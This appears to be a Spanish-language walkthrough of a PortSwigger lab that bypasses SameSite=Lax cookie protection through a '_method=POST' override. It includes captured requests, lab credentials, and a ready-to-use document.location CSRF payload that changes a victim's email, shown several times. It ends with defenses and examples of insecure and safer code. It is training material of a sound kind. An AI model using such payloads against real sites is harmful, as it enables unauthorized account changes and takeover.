


# PortSwigger Web Security Academy — CSRF Lab 7

# SameSite Lax bypass via method override

**URL del lab:** `https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override`  
**Categoría:** CSRF  
**Objetivo:** realizar un ataque CSRF que cambie la dirección de email de la víctima usando el exploit server.  
**Credenciales:** `wiener:peter`

---

## Capturas incluidas

- `images/01_lab_not_solved.png`
- `images/02_lab_solved.png`





---

# 1. Idea principal del laboratorio

Este laboratorio mezcla cuatro conceptos importantes:

1. CSRF.
2. Cookies con comportamiento `SameSite=Lax`.
3. Navegaciones top-level.
4. Sobrescritura del método HTTP mediante `_method=POST`.

La idea clave es esta:

```text
El navegador cree que está haciendo un GET seguro.
El backend interpreta ese GET como un POST.
```

Ese choque entre lo que ve el navegador y lo que interpreta el servidor permite saltarse la protección práctica que aporta `SameSite=Lax`.

---

# 2. Qué es CSRF

CSRF significa **Cross-Site Request Forgery**.

La idea es que una web atacante fuerza al navegador de una víctima autenticada a enviar una petición a otra web.

El atacante no necesita robar la cookie de sesión. Tampoco necesita leerla. El navegador la adjunta automáticamente cuando hace peticiones al dominio correspondiente.

Ejemplo conceptual:

```http
POST /my-account/change-email
Cookie: session=COOKIE_DE_LA_VICTIMA

email=attacker@gmail.com
```

Si el servidor solo comprueba que existe una sesión válida, pensará que la víctima quiso hacer esa acción.

---

# 3. Qué es SameSite

`SameSite` es un atributo de cookie.

Ejemplo:

```http
Set-Cookie: session=abc123; SameSite=Lax
```

La cookie sigue siendo:

```text
session=abc123
```

pero `SameSite=Lax` le dice al navegador cuándo debe enviarla.

La idea importante:

```text
SameSite no decide si la cookie existe.
SameSite decide cuándo se envía.
```

---

# 4. Modos de SameSite

## SameSite=None

La cookie se envía incluso en contextos cross-site.

```http
Set-Cookie: session=abc123; SameSite=None; Secure
```

## SameSite=Strict

La cookie no se envía en navegaciones cross-site.

```http
Set-Cookie: session=abc123; SameSite=Strict
```

## SameSite=Lax

La cookie se envía en navegaciones principales GET, pero no en muchos contextos embebidos o POST cross-site.

```http
Set-Cookie: session=abc123; SameSite=Lax
```

---

# 5. Qué permite SameSite=Lax

`SameSite=Lax` permite cookies en:

```text
Navegaciones top-level usando GET.
```

Ejemplos:

```html
<a href="https://victima.com/my-account">Ir</a>
```

```javascript
document.location = "https://victima.com/my-account";
```

En esos casos, el navegador cambia la URL principal de la pestaña.

---

# 6. Qué bloquea SameSite=Lax

`SameSite=Lax` normalmente no envía cookies en:

```html

```

```html
<iframe src="https://victima.com/action"></iframe>
```

```javascript
fetch("https://victima.com/action")
```

ni en un formulario POST cross-site clásico:

```html
<form method="POST" action="https://victima.com/my-account/change-email">
```

Por eso un CSRF tradicional con POST puede fallar si la cookie de sesión se comporta como Lax.

---

# 7. Qué es una navegación top-level

Una navegación top-level es una navegación de la página principal.

Ejemplo:

```javascript
document.location = "https://victima.com/my-account";
```

La barra del navegador cambia.

Esto no es lo mismo que cargar una imagen, un iframe o hacer un fetch.

Para SameSite=Lax esta diferencia es fundamental.

---

# 8. Qué es document.location

`document.location` representa la URL actual del documento.

Si hacemos:

```javascript
document.location = "https://example.com";
```

el navegador abandona la página actual y navega a esa URL.

Es parecido a hacer click en un enlace.

Por eso nos sirve en este lab: genera una navegación top-level GET.

---

# 9. Qué es Method Override

Method Override es una técnica usada por algunos frameworks para simular métodos HTTP.

HTML soporta de forma nativa formularios con:

```text
GET
POST
```

Pero algunas APIs usan:

```text
PUT
PATCH
DELETE
```

Para simularlos, algunos frameworks aceptan parámetros como:

```text
_method=DELETE
```

o:

```text
_method=POST
```

Ejemplo:

```http
POST /users/123?_method=DELETE
```

El backend puede interpretar eso como un `DELETE` lógico.

---

# 10. Por qué Method Override es peligroso en este lab

El problema aparece cuando el servidor permite esto:

```http
GET /my-account/change-email?email=x@gmail.com&_method=POST
```

El navegador ve:

```text
GET
```

pero el backend ve:

```text
_method=POST
```

y ejecuta la lógica de POST.

Esto rompe el modelo de seguridad del navegador.

---

# 11. La clave del bypass

Chrome aplica SameSite basándose en la petición real del navegador.

La petición real será:

```http
GET /my-account/change-email?email=pwned@web-security-academy.net&_method=POST
```

Como es un GET top-level, Chrome manda la cookie Lax.

Luego el backend interpreta:

```text
_method=POST
```

y ejecuta una acción sensible.

Resumen:

```text
Navegador: GET seguro -> envío cookie.
Backend: _method=POST -> cambio email.
```

---

# 12. Inicio del laboratorio

Abrimos:

```text
https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/
```

La página es un blog.


Entramos en `My account` con:

```text
wiener:peter
```

---

# 13. Petición legítima de cambio de email

Cambiamos el email y capturamos la petición con Burp Suite:

```http
POST /my-account/change-email HTTP/1.1
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=Y8453y53mz4s4a7WS28YCseEIuexg6Ao
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://0a1a00aa04513467801f1c3200630004.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=toloko%40gmail.com
```

---

# 14. Análisis de la petición de cambio de email

El body solo contiene:

```text
email=toloko%40gmail.com
```

Decodificado:

```text
email=toloko@gmail.com
```

No hay:

```text
csrf=...
```

No hay cabecera:

```http
X-CSRF-Token:
```

Esto indica que la acción de cambio de email no tiene token CSRF.

Pero todavía no podemos decir que sea explotable, porque SameSite podría impedir que se envíe la cookie de sesión en un ataque cross-site.

---

# 15. Petición de login

Capturamos también el login:

```http
POST /login HTTP/1.1
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=P9qEhWvekmYk6NRwVzfSg1fVSOopNYFG
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a1a00aa04513467801f1c3200630004.web-security-academy.net
Referer: https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=wiener&password=peter
```

Lo más importante es la respuesta del login.

---

# 16. Respuesta del login

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=2KoLCGiaaNPeL9l88hRRN0BxG9thUhFe; Expires=Sun, 17 May 2026 17:23:43 UTC; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

La cookie es:

```http
Set-Cookie: session=2KoLCGiaaNPeL9l88hRRN0BxG9thUhFe; Expires=Sun, 17 May 2026 17:23:43 UTC; Secure; HttpOnly
```

No aparece:

```text
SameSite=
```

---

# 17. Qué significa que no aparezca SameSite

En Chrome, si una cookie no tiene `SameSite` explícito, se aplica por defecto:

```text
SameSite=Lax
```

Esto se llama:

```text
Lax-by-default
```

Entonces la cookie de sesión se comporta como Lax.

Eso significa:

```text
POST cross-site: cookie no enviada normalmente.
GET top-level cross-site: cookie sí enviada.
```

---

# 18. Por qué un POST CSRF normal no funcionaría

Un exploit clásico sería:

```html
<form action="https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
  document.forms[0].submit();
</script>
```

Pero ese formulario haría un POST cross-site.

Chrome no enviaría la cookie Lax.

Sin cookie de sesión, el servidor no sabría qué cuenta modificar.

Por eso necesitamos convertir el ataque en una navegación GET top-level.

---

# 19. Prueba de Method Override

En Burp Repeater usamos `Change request method` para convertir el POST en GET.

Primero queda:

```http
GET /my-account/change-email?email=toloko%40gmail.com HTTP/1.1
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=Y8453y53mz4s4a7WS28YCseEIuexg6Ao
```

Después añadimos:

```text
&_method=POST
```

---

# 20. Primera prueba con sesión inválida

Se probó:

```http
GET /my-account/change-email?email=toloko%40gmail.com&_method=POST HTTP/1.1
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=Y8453y53mz4s4a7WS28YCseEIuexg6Ao
```

Respuesta:

```http
HTTP/2 302 Found
Location: /login
Set-Cookie: session=SxTYQIxn3ZWcUHlvZEhG1J3N16JOCegz; Expires=Sun, 17 May 2026 17:33:34 UTC; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Esto no demuestra que el override falle. Demuestra que esa sesión no era válida.

`Location: /login` significa que el servidor no reconoce al usuario como autenticado.

---

# 21. Prueba correcta con sesión fresca

Se repite con sesión válida:

```http
POST /my-account/change-email HTTP/2
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=bIhQpuvVQyBswX1ARR26U9n12j0iiqpG
Content-Type: application/x-www-form-urlencoded

email=mamon%40gmail.com
```

Y después se prueba:

```http
GET /my-account/change-email?email=mamon%40gmail.com&_method=POST HTTP/2
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=bIhQpuvVQyBswX1ARR26U9n12j0iiqpG
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: https://0a1a00aa04513467801f1c3200630004.web-security-academy.net
Referer: https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Respuesta:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

---

# 22. Qué demuestra esta respuesta

La respuesta:

```http
Location: /my-account?id=wiener
```

indica que la request fue aceptada.

No redirige a `/login`.

No devuelve `Method Not Allowed`.

No devuelve error.

Eso confirma que:

```text
GET + _method=POST ejecuta la acción de cambio de email.
```

---

# 23. Qué ocurre internamente

La petición real es:

```http
GET /my-account/change-email?email=mamon%40gmail.com&_method=POST
```

Pero el servidor interpreta:

```text
_method=POST
```

y trata la petición como si fuera un POST.

Conceptualmente:

```python
if request.args.get("_method") == "POST":
    request.method = "POST"
```

Eso permite ejecutar la acción sensible con un GET real.

---

# 24. Construcción del exploit

Como necesitamos una navegación GET top-level, usamos `document.location`.

Exploit:

```html
<script>
    document.location = "https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

---

# 25. Por qué este exploit manda cookies

La víctima visita el exploit server.

El JavaScript ejecuta:

```javascript
document.location = "https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
```

Eso provoca una navegación top-level.

La petición real es GET.

Chrome permite cookies Lax en GET top-level.

Entonces el navegador envía:

```http
Cookie: session=COOKIE_DE_LA_VICTIMA
```

---

# 26. Qué ve el servidor

El servidor recibe algo así:

```http
GET /my-account/change-email?email=pwned@web-security-academy.net&_method=POST HTTP/1.1
Host: 0a1a00aa04513467801f1c3200630004.web-security-academy.net
Cookie: session=COOKIE_DE_LA_VICTIMA
```

Después interpreta:

```text
_method=POST
```

y ejecuta la acción de cambio de email.

---

# 27. Exploit server

En el exploit server pegamos:

```html
<script>
    document.location = "https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

Después hacemos:

```text
Store
```

y luego:

```text
Deliver exploit to victim
```

El laboratorio queda resuelto.


---

# 28. Flujo completo

```text
1. La víctima está logueada.
2. La cookie de sesión no tiene SameSite explícito.
3. Chrome aplica SameSite=Lax por defecto.
4. SameSite=Lax bloquearía un POST cross-site.
5. El endpoint no tiene token CSRF.
6. El servidor soporta _method=POST.
7. El atacante usa document.location.
8. El navegador hace un GET top-level.
9. Chrome envía la cookie de sesión.
10. El backend interpreta _method=POST.
11. El backend ejecuta el cambio de email.
12. El email de la víctima cambia.
13. El laboratorio se resuelve.
```

---

# 29. Por qué SameSite no salva aquí

SameSite hace su trabajo correctamente.

Chrome ve un GET top-level y manda la cookie.

El problema es que el servidor rompe la semántica de HTTP.

Convierte un GET en una acción equivalente a POST.

La vulnerabilidad está en la lógica del backend.

---

# 30. Qué NO es el fallo

No es que `document.location` sea peligroso por sí mismo.

No es que `SameSite=Lax` esté roto.

No es que Method Override siempre sea malo.

El fallo es permitir:

```text
GET + _method=POST
```

para una acción sensible sin CSRF token.

---

# 31. Defensa correcta

Medidas correctas:

1. Usar tokens CSRF reales.
2. No depender solo de SameSite.
3. No permitir Method Override en GET.
4. No permitir cambios de estado mediante GET.
5. Validar `Origin` y `Referer`.
6. Si se usa `_method`, aceptarlo solo en POST protegidos por CSRF.
7. Tratar GET como seguro e idempotente.
8. Usar SameSite explícito y adecuado.
9. Exigir reautenticación en acciones muy sensibles.

---

# 32. Ejemplo de lógica insegura

```python
method = request.args.get("_method", request.method)

if method == "POST":
    change_email(request.args["email"])
```

Esto permite:

```http
GET /change-email?email=x&_method=POST
```

---

# 33. Ejemplo de lógica más segura

```python
if request.method != "POST":
    reject()

validate_csrf_token()

change_email(request.form["email"])
```

Si se usa Method Override:

```python
if request.method == "POST":
    method = request.form.get("_method", "POST")
else:
    ignore_method_override()
```

La clave es no convertir GET en una acción peligrosa.

---

# 34. Payload final

```html
<script>
    document.location = "https://0a1a00aa04513467801f1c3200630004.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

---

# 35. Frase clave

```text
El navegador cree que está haciendo un GET seguro, pero el servidor lo ejecuta como un POST peligroso.
```

---

# 36. Idea definitiva

`SameSite=Lax` puede reducir ataques CSRF, pero no sustituye una defensa CSRF real.

Si el backend permite que un GET sea reinterpretado como POST mediante `_method=POST`, la protección de SameSite puede ser burlada.

